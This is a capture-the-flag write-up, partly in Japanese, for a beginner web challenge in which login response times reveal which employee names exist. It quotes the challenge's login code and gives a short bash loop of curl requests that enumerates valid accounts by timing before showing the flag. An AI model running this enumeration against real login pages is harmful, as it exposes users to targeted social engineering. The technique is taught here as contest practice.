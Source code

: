 # Spy:Web:55pts
As a spy, you are spying on the "ctf4b company".  
You got the name-list of employees and the [URL](https://spy.quals.beginners.seccon.jp) to the in-house web tool used by some of them.  
Your task is to enumerate the employees who use this tool in order to make it available for social engineering.  
- [app.py](app.py-eebd3e0541ea83ea360fa650164a231ffe410ece)  
- [employees.txt](employees.txt-c8eb600b89a185e33b6ad279b5f3b513d41b7302)  

# Solution
LoginページとChallengeページがあるようだ。  
ctf4b company  
[site1.png](site/site1.png)  
Challenge  
[site2.png](site/site2.png)  
存在するユーザをloginフォームで調査し、Challengeページで選択する。  
配布されているソースコードであるapp.pyに以下のような記述がある。  
```python:app.py
~~~
    if request.method == "POST":
        name = request.form["name"]
        password = request.form["password"]

        exists, account = db.get_account(name)

        if not exists:
            return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))

        # auth.calc_password_hash(salt, password) adds salt and performs stretching so many times.
        # You know, it's really secure... isn't it? :-)
        hashed_password = auth.calc_password_hash(app.SALT, password)
        if hashed_password != account.password:
            return render_template("index.html", message="Login failed, try again.", sec="{:.7f}".format(time.perf_counter()-t))
~~~
```
いかにもsecが怪しい。  
ユーザ名が存在する場合パスワードをハッシュ化し、チェックしている。  
つまり、その分secが増加する。  
employeesを確認する。  
手作業でソースのsecを見てもよい。  
```bash:check.sh
while read line
do
    echo $line >> check.txt
    curl -X POST -s -d "name=$line&password=Test" https://spy.quals.beginners.seccon.jp | grep -o It.*page. >> check.txt
done < employees.txt
```
check.txtを確認し存在するユーザを選択するとflagが手に入る。  
flag  
[flag.png](site/flag.png)  

## ctf4b{4cc0un7_3num3r4710n_by_51d3_ch4nn3l_4774ck}